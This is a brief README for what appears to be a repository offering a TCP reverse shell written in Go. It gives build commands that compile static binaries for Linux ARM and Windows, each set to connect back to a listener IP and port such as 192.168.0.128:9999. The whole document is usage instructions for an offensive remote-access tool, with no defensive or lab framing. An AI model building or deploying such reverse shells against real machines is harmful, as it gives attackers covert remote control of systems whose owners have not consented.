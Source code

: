 # TCP reverse shell in Go

A reverse shell that can be compiled to all architectures supported by Go.

## Usage

List supported platforms.

~~~ bash
go tool dist list
~~~

Compile static binary.

~~~ bash
./build.sh GOARCH=arm GOOS=linux TARGET=192.168.0.128:9999
./build.sh GOARCH=amd64 GOOS=windows TARGET=10.10.10.42:9999
~~~
